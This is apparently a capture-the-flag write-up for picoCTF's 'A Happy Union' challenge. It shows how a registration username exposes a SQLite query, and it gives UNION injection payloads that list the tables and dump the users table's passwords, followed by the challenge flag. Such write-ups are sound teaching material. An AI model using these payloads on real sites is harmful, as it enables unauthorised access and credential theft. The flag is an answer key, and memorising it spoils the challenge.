 ## A Happy Union - 110

### Description

I really need access to [website](http://shell2017.picoctf.com:41558), but I forgot my password and there is no reset. Can you help? I like lite sql :)

### Hint

  - A SQL union allows a single query to select values from multiples tables.

### Write up

There are Login and Register button.

Trying to login with somthing like below doesn't work.

    admin'
    ' or 1=1
    ' or '1'='1

Let's use register to attack.

    username='
    password=asdf
    password=asdf

When I registered with this account, and tried to login. This error message is shown.

    There Was An Error With Your Request

    select id, user, post from posts where user = ''';

Oh, we found the SQL query.

What we want is the password for some user, but I don't think `posts` table does hold that. So, let's find other table names.

In sqlite, there is a `sqlite_master` table that hold metadata for other tables.

> ' union select 1, 1, name from sqlite_master; --

By using this payload, we can find that there is `users` table.

> ' union select user, pass, 1 from users; --

Then, we can find passwords from users table.

> flag{union?_why_not_onion_b6e6a3cd8e3f1fe5f6109d1618bddbd1}
